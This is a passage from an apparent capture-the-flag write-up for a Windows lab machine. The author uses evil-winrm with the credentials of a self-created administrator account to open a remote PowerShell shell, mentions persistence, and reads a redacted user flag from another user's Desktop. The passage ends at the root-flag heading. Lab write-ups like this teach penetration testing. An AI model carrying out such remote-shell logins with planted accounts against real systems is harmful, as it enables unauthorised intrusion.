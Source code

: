 Since we know from our initial `nmap` scan that there is a `WinRM` service running on open TCP Port 5985, we can now attempt to utilise the `evil-winrm` tool to access the windows host machine using our newly created users credentials (`shadows`:`Shad0wsRUS1!`).

```zsh
0x3ds@kali $ evil-winrm -i 10.129.236.140 -u shadows -p 'Shad0wsRUS1!'
                                        
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\shadows\Documents> 
```

We can see that we have successfully authenticated to the windows host machine as our new user and can execute commands.

Since we have added our user to the Administrators group, we have administrators privileges and can perform various actions to create persistence if we wanted to.


---
### User Flag

Further enumeration of the host system led us to discover the `user.txt` flag file in the `C:\Users\oliver\Desktop` directory.

```zsh
*Evil-WinRM* PS C:\Users> ls C:\Users\oliver\Desktop

    Directory: C:\Users\oliver\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       10/31/2025   7:34 PM             34 user.txt
```


We can attempt to read the contents of the file and obtain the flag:

```zsh
*Evil-WinRM* PS C:\Users\shadows\Documents> cat C:\Users\oliver\Desktop\user.txt

4958f***************************
```

We can see that we have successfully obtained the `user.txt` flag!

> **Answer: `4958f***************************`**
{: .prompt-tip }


---
### Root Flag
